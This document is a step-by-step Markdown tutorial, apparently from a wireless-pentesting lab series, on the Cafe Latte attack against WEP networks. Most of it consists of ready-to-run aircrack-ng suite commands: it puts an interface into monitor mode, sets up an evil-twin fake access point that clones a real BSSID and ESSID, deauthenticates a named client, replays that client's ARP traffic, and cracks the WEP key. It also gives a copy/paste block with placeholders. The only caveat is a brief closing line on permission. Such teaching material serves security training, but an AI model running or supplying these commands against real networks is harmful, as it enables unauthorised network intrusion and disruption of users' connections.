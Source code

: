 # Chain #22: Cafe Latte Attack

Short purpose: when client/AP traffic is scarce, impersonate the target WEP AP (evil‑twin style) to pull a **connected client** onto a fake WEP AP and milk ARP traffic from that client. Replay those ARPs to rapidly collect IVs and crack the WEP key offline.

> You’ll typically run **four terminals**: (1) airodump capture, (2) aireplay Cafe Latte listener, (3) airbase fake AP, (4) deauth sender.

---

## Key terms (fast refresher)

- **Cafe Latte** — WEP client‑side ARP replay technique using a fake AP that mimics the real one.
- **Evil twin (WEP)** — a rogue AP broadcasting the **same BSSID/ESSID** as the target to fool clients.
- **IVs / PRGA** — per‑packet RC4 keystream inputs; lots of IVs → crack WEP with PTW/Korek.
- **Deauth** — kicks a client off the real AP so it reconnects to the fake AP.

---

## Step‑by‑step workflow (concise)

1. **Enable monitor mode**.
2. **Capture** the target AP/channel with airodump.
3. **Start Cafe Latte listener** (aireplay `-6`) to snag/replay client ARPs.
4. **Bring up fake AP** (airbase) with same BSSID/ESSID/channel in WEP mode.
5. **Deauthenticate** the target client to force it onto the fake AP.
6. **Watch ARPs flow** and IVs accumulate (airodump; listener stats).
7. **Crack WEP** from captured IVs using aircrack.

---

## Commands — statement‑by‑statement explanations

### 1) Enable monitor mode

```bash
sudo airmon-ng start wlan0
```

- **`sudo`**: requires root for interface mode changes.
- **`airmon-ng`**: helper script to toggle monitor mode.
- **`start wlan0`**: converts `wlan0` into a monitor mode iface (typically `wlan0mon`).
- **Notes shown**: processes that may interfere (NetworkManager/wpa_supplicant); chipset/driver; new interface name.

Verify:

```bash
iwconfig
```

- **Goal**: confirm `Mode:Monitor` on `wlan0mon`, frequency/channel, TX power.

---

### 2) Capture target AP traffic

```bash
airodump-ng wlan0mon -c 1 -w WEP
```

- **`airodump-ng`**: passive scanner/capture.    
- **`wlan0mon`**: monitor interface.
- **`-c 1`**: lock to channel 1 (match target AP channel).
- **`-w WEP`**: write capture files with base name `WEP` → creates `WEP-01.cap`.
- **What to watch**: target **BSSID**, **ESSID**, encryption **WEP**, connected **STATION** MACs.

---

### 3) Start Cafe Latte listener (client‑side ARP replay)

```bash
aireplay-ng -6 -D -b B2:D1:AC:E1:21:D1 -h B6:1F:98:CB:10:78 wlan0mon
```

- **`aireplay-ng`**: traffic injection/replay.
- **`-6`**: Cafe Latte attack mode (ARP replay toward a **client**).
- **`-D`**: ignore/disable AP detection checks (helps in noisy/edge cases).
- **`-b <BSSID>`**: target AP MAC to mimic (here `B2:D1:AC:E1:21:D1`).
- **`-h <client MAC>`**: targeted station (here `B6:1F:98:CB:10:78`). May need to spoof your interface MAC to this value if prompted.
- **Effect**: listens for the client and replays ARPs **to the client**; saves ARPs to `replay_arp-*.cap` and shows counters (ARPs seen/sent).

---

### 4) Launch the fake WEP AP (evil twin)

```bash
airbase-ng -c 1 -a B2:D1:AC:E1:21:D1 -e "HackTheWifi" wlan0mon -W 1 -L
```

- **`airbase-ng`**: rogue AP framework.    
- **`-c 1`**: broadcast on channel 1 (must match target channel).
- **`-a <BSSID>`**: **same BSSID** as the real AP (clones MAC).
- **`-e "ESSID"`**: **same ESSID** (`HackTheWifi`).
- **`wlan0mon`**: interface that will transmit beacons/frames.
- **`-W 1`**: enable **WEP** mode (key index 1).
- **`-L`**: enable Cafe Latte logic within airbase (helps farm ARPs from clients).
- **Expected output**: creation of TAP interface `at0`, MTU tweaks, “Access Point started”, and later “Starting Caffe‑Latte attack against ”.

---

### 5) Force the client to the fake AP (deauth)

```bash
aireplay-ng -0 10 -a B2:D1:AC:E1:21:D1 -c B6:1F:98:CB:10:78 wlan0mon
```

- **`-0 10`**: send **10** deauthentication bursts.    
- **`-a <BSSID>`**: target real AP MAC.
- **`-c <client MAC>`**: specific client to kick.
- **Effect**: client drops off the real AP and (ideally) reassociates to the fake AP with the same BSSID/ESSID.
- **Tell‑tales**: airbase terminal logs repeated **“Client associated (WEP)”** lines; the listener terminal (`-6`) shows ARP counts increasing.

---

### 6) Let ARPs and IVs accumulate

- Keep **airodump** running to capture replies into `WEP-01.cap` and watch `#Data` grow.
- The **Cafe Latte listener** will show totals like `Read … (xxxx ARPs, … sent … pps)` — that’s good; more ARPs → more IVs.
- If ARPs stall: rerun deauth (Terminal 4) and immediately ensure airbase (`-L`) is still up.

---

### 7) Crack the WEP key (offline)

```bash
aircrack-ng -b B2:D1:AC:E1:21:D1 WEP-01.cap
```

- **`aircrack-ng`**: offline WEP key recovery.    
- **`-b <BSSID>`**: select target AP in the capture.
- **`WEP-01.cap`**: the file where airodump saved IVs.
- **Behavior**: runs PTW/Korek; once IVs are sufficient you’ll see `KEY FOUND! [ … ]`.

---

## Quick reference (copy/paste block)

```bash
# 1) Monitor mode
sudo airmon-ng start wlan0 && iwconfig

# 2) Capture on target channel
airodump-ng wlan0mon -c 1 -w WEP

# 3) Cafe Latte listener (client‑side ARP replay)
aireplay-ng -6 -D -b <AP_BSSID> -h <CLIENT_MAC> wlan0mon

# 4) Fake WEP AP (evil twin) — same BSSID/ESSID/channel
airbase-ng -c 1 -a <AP_BSSID> -e "<ESSID>" wlan0mon -W 1 -L

# 5) Deauth client off the real AP (force to fake AP)
aireplay-ng -0 10 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon

# 6) (Monitor) Let ARPs/IVs flow; keep airodump running

# 7) Crack once IVs are high
aircrack-ng -b <AP_BSSID> WEP-01.cap
```

---

## Summary (one‑paragraph)

Cafe Latte targets **clients** instead of the AP: you clone the AP (same BSSID/ESSID) in WEP mode, kick a client so it associates to your fake AP, and then farm its ARP traffic. Replaying those ARPs rapidly fills your capture with IVs, enabling a straightforward **aircrack‑ng** recovery of the WEP key.

---

### Practical tips & gotchas

- Spoof your interface MAC to the client’s MAC when the tools prompt, to avoid packet drops.
- Ensure channel/BSSID/ESSID are **exact matches** between real and fake AP.
- If no ARPs appear, re‑run deauth and confirm airbase is still broadcasting with `-L` enabled.
- Legal/ethical: only test against networks you own or have explicit written permission to assess.